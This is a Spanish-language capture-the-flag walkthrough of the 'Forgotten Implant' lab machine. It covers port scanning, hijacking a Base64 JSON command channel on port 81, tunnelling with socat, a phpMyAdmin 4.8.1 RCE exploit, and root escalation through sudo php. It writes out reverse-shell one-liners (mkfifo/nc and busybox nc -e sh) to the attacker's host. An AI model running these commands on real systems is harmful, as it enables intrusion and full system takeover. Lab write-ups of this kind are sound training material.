

# Forgotten Implant


Comenzamos realizando un escaneo de puertos en la máquina objetivo.

```bash
nmap -sV -sC -p- -T4 <ip>
```

* -sV: Sondeo de puertos abiertos para determinar la información del servicio/versión
* -sC: equivalente a _--script=default_.
* -p-: Escanea todos los puertos de la Red (65536)
* -T4: La velocidad de escaneo de puertos.

<figure><figcaption></figcaption></figure>

Hemos notado que solo hay un puerto abierto: el `22`, que corresponde a `SSH`. Sin embargo, no contamos con una puerta de entrada visible, por lo que es necesario investigar un puerto oculto que podría estar bloqueando nuestro reconocimiento.

Podríamos encontrarnos con una variedad de servicios ocultos que se nos puedan ocurrir. Para identificarlos, sería necesario realizar un escaneo específico dirigido a ese puerto. Comenzaremos con el servicio más común, que es `HTTP`.

Configuramos `Wireshark` en `tun0` para monitorear todas las solicitudes generadas por la herramienta `Nmap`. De esta manera, podremos identificar cualquier puerto que nos brinde una señal de actividad.

<figure><figcaption></figcaption></figure>

Como podemos observar, los únicos dos puertos que intercambian paquetes son el `22`, que corresponde a `SSH`, y el `81`, cuyo servicio asociado aún desconocemos.

Iniciamos `netcat` en el puerto `81` para verificar si podemos recibir una respuesta del servicio. Efectivamente, logramos obtener una respuesta, por lo que procedemos a decodificar el mensaje.

<figure><figcaption></figcaption></figure>

```
listening on [any] 81 ...
connect to [10.9.0.24] from (UNKNOWN) [10.10.39.148] 52932
GET /heartbeat/eyJ0aW1lIjogIjIwMjUtMDgtMDFUMDM6MDY6MDEuNTE0NTc4IiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImlwLTEwLTEwLTM5LTE0OCJ9LCAibGF0ZXN0X2pvYiI6IHsiam9iX2lkIjogMCwgImNtZCI6ICJ3aG9hbWkifSwgInN1Y2Nlc3MiOiBmYWxzZX0= HTTP/1.1
Host: 10.9.0.24:81
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive

```

Ya decodificado el mensaje podemos ver que obtenemos el siguiente mensaje en Json.

```
{"time": "2025-08-01T03:06:01.514578", "systeminfo": {"os": "Linux", "hostname": "ip-10-10-39-148"}, "latest_job": {"job_id": 0, "cmd": "whoami"}, "success": false}
```

## C2

Después de un tiempo de investigación, hemos observado que, aunque no podemos conectarnos directamente, el servidor y nosotros intercambiamos información a través del puerto `81`. Por lo tanto, podemos enviar datos incorrectos para que el servidor los procese, lo que nos permitiría obtener una shell inversa.



Para ello, veamos qué más solicita el servidor. Para facilitar esto, configuraremos un servidor utilizando `Python`.

```
python3 -m http.server 81
```

Recibimos una respuesta que incluye tanto el `heartbeat`, que nos confirma la conexión, como la solicitud `/get-job/ImxhdGVzdCI=`, que al ser decodificada resulta en `"latest"`.

```
10.10.39.148 - - [31/Jul/2025 22:18:02] "GET /heartbeat/eyJ0aW1lIjogIjIwMjUtMDgtMDFUMDM6MTg6MDEuNzM4NjY0IiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImlwLTEwLTEwLTM5LTE0OCJ9LCAibGF0ZXN0X2pvYiI6IHsiam9iX2lkIjogMCwgImNtZCI6ICJ3aG9hbWkifSwgInN1Y2Nlc3MiOiBmYWxzZX0= HTTP/1.1" 404 -
10.10.39.148 - - [31/Jul/2025 22:18:03] code 404, message File not found
10.10.39.148 - - [31/Jul/2025 22:18:03] "GET /get-job/ImxhdGVzdCI= HTTP/1.1" 404 -
10.10.39.148 - - [31/Jul/2025 22:19:02] code 404, message File not found

```

<figure><figcaption></figcaption></figure>

Con toda esta información, podemos inferir que el servidor está a la espera de recibir un `comando` o un `JSON` para ejecutarlo. Para poder enviar un comando, necesitamos tener los mismos directorios, así que procederemos a crearlos.

``` 
mkdir get-job && cd get-job
```

```
nano ImxhdGVzdCI=
```

Debemos revisar cuidadosamente qué contenido debe incluirse en el archivo `ImxhdGVzdCI=`. El último mensaje que recibimos es un `JSON`, así que lo desglosaremos en sus diferentes partes.

```
{"time": "2025-08-01T03:06:01.514578", "systeminfo": {"os": "Linux", "hostname": "ip-10-10-39-148"}, "latest_job": {"job_id": 0, "cmd": "whoami"}, "success": false}
```

Esta sección se refiere al estado del servidor y sus características.

```
{"time": "2025-08-01T03:06:01.514578", "systeminfo": {"os": "Linux", "hostname": "ip-10-10-39-148"},
```

Esta sección se refiere al código que se implementará en el servidor.

```
"latest_job": {"job_id": 0, "cmd": "whoami"}
```

La última sección se refiere al estado de ejecución del comando.

```
"success": false}
```

Si no tienes experiencia con `JSON`, puedes reconocerlo por las comas que separan sus elementos. Te recomiendo revisar el siguiente enlace para obtener más información.



```
Adentro de nano 

{"job_id": 0, "cmd": "id"}
```

Recibimos el siguiente mensaje.

<figure><figcaption></figcaption></figure>

```
10.10.39.148 - - [31/Jul/2025 22:33:03] "GET /get-job/ImxhdGVzdCI= HTTP/1.1" 200 -
10.10.39.148 - - [31/Jul/2025 22:33:04] code 404, message File not found
10.10.39.148 - - [31/Jul/2025 22:33:04] "GET /job-result/eyJzdWNjZXNzIjogZmFsc2UsICJyZXN1bHQiOiAiRW5jb2RpbmcgZXJyb3IifQ== HTTP/1.1" 404 -
```

Hemos recibido el siguiente mensaje: `eyJzdWNjZXNzIjogZmFsc2UsICJyZXN1bHQiOiAiRW5jb2RpbmcgZXJyb3IifQ==`, que al ser decodificado resulta en `{"success": false, "result": "Encoding error"}`. Esto indica un error de `encoding`. Dado que todo está codificado en `Base64`, procederemos a codificar nuestro comando y lo colocaremos en el archivo `ImxhdGVzdCI=`.

```
{"job_id": 0, "cmd": "id"}
eyJqb2JfaWQiOiAwLCAiY21kIjogImlkIn0=
```

De esta manera, logramos obtener una respuesta válida del servidor.

<figure><figcaption></figcaption></figure>

```
10.10.39.148 - - [31/Jul/2025 22:37:03] "GET /get-job/ImxhdGVzdCI= HTTP/1.1" 200 -
10.10.39.148 - - [31/Jul/2025 22:37:03] code 404, message File not found
10.10.39.148 - - [31/Jul/2025 22:37:03] "GET /job-result/eyJqb2JfaWQiOiAwLCAiY21kIjogImlkIiwgInN1Y2Nlc3MiOiB0cnVlLCAicmVzdWx0IjogInVpZD0xMDAxKGFkYSkgZ2lkPTEwMDEoYWRhKSBncm91cHM9MTAwMShhZGEpXG4ifQ== HTTP/1.1" 404 -
```

```
eyJqb2JfaWQiOiAwLCAiY21kIjogImlkIiwgInN1Y2Nlc3MiOiB0cnVlLCAicmVzdWx0IjogInVpZD0xMDAxKGFkYSkgZ2lkPTEwMDEoYWRhKSBncm91cHM9MTAwMShhZGEpXG4ifQ==

Decodificado

{"job_id": 0, "cmd": "id", "success": true, "result": "uid=1001(ada) gid=1001(ada) groups=1001(ada)\n"}
```

Si logramos ejecutar un comando como `id`, podríamos abrir una puerta de acceso al sistema del servidor a través de una `shell`. Por lo tanto, procederemos a generar nuestra `reverse shell`.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.0.24 4242 >/tmp/f
```

Insertamos el comando en nuestro `JSON` y lo codificamos en `Base64`.

```
{"job_id": 0, "cmd": "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.0.24 4242 >/tmp/f"}

eyJqb2JfaWQiOiAwLCAiY21kIjogInJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8c2ggLWkgMj4mMXxuYyAxMC45LjAuMjQgNDI0MiA+L3RtcC9mIn0=
```

Colocamos el contenido en nuestro archivo `ImxhdGVzdCI=` y esperamos un momento para que el servidor lo procese. De esta manera, logramos obtener una shell.

<figure><figcaption></figcaption></figure>




# Shell /ada

Lo más notable que encontramos durante la enumeración fueron las credenciales de la base de datos en el archivo `products.py`, aunque solo contenía información sobre productos. Es probable que otro usuario tenga procesos ocultos o que no aparezcan en la red. Esto se confirma con el usuario `fi`, que elimina todos los registros, incluyendo los de `phpadmin`. Recordemos que al principio no teníamos ninguna página para visitar. Para investigar más a fondo, podríamos utilizar `nmap`, pero no está instalado en la máquina objetivo y tampoco tenemos permiso de hacerlo. Por lo tanto, debemos descargar un binario y ejecutarlo.

<figure><figcaption></figcaption></figure>



Escaneamos la red interna.

```
wget http://<ip>:<port>/nmap
chmod +x nmap
./nmap -Pn -p- -T4 127.0.0.1
```


```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
3306/tcp  open  mysql
33060/tcp open  unknown
```


<figure><figcaption></figcaption></figure>

Como podemos observar, hay un puerto `80` que corresponde a `HTTP`. Podemos utilizar curl para verificar qué contenido tiene.

```
curl 127.0.0.1:80
```

Al revisar el código, podemos notar que corresponde a una página de `phpAdmin`. Sin embargo, dado que el servidor no está en funcionamiento y no tenemos privilegios para iniciarlo, debemos descargar otro binario y ejecutarlo.




<figure><figcaption></figcaption></figure>

```
chmod +x socat 
./socat TCP4-LISTEN:8080,fork TCP4:127.0.0.1:80
```

De esta manera, podremos visualizar la página a través del puerto `8080`.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Dado que los nombres de usuario y contraseñas por defecto no funcionaron, debemos utilizar las credenciales que encontramos en el directorio de `ada`, específicamente en el archivo `products.py`, las cuales sí resultaron efectivas.

<figure><figcaption></figcaption></figure>

Observamos que la información de la versión, `4.8.1`, es vulnerable, por lo que procedemos a buscar y descargar un exploit para ejecutarlo.

```
└─$ searchsploit phpMyAdmin 4.8 

phpMyAdmin 4.8.1 - Remote Code Execution (RCE)                            | php/webapps/50457.py

└─$ searchsploit -m php/webapps/50457.py    

```

<figure><figcaption></figcaption></figure>

Contamos con un uso muy común para implementarlo.

```
  usage = """Usage: {} [ipaddr] [port] [path] [username] [password] [command]
Example: {} 192.168.56.65 8080 /phpmyadmin username password whoami"""
```

```
└─$ python2 50457.py 10.10.39.148 8080 /index.php <user> <password> whoami

www-data
```

Podemos utilizar una shell inversa y enviarla como comando de la siguiente manera.

```
 python2 50457.py 10.10.39.148 8080 /index.php <user> <pass> 'busybox nc 10.9.0.24 4244 -e sh'
```

<figure><figcaption></figcaption></figure>

# Shell /data

Iniciamos la enumeracion con `sudo -l`

```
sudo -l
Matching Defaults entries for www-data on ip-10-10-39-148:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-39-148:
    (root) NOPASSWD: /usr/bin/php
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ip-10-10-39-148:/var/www/phpmyadmin$ ^Z
zsh: suspended  nc -lvnp 4244

```

<figure><figcaption></figcaption></figure>

Con esto, podemos confirmar que tenemos la capacidad de ejecutar el comando `php` como usuario `root`.



```
CMD="/bin/sh"
sudo -u root /usr/bin/php -r "system('$CMD');"
```

De esta manera, logramos obtener los permisos y acceder al usuario `root`.

<figure><figcaption></figcaption></figure>

>No es la muerte la que nos quita la vida, sino el temor a vivirla sin un propósito. Aquellos que temen al fracaso dejan de intentarlo, y quienes abandonan sus intentos ya han comenzado a morir en vida.

<figure><figcaption></figcaption></figure>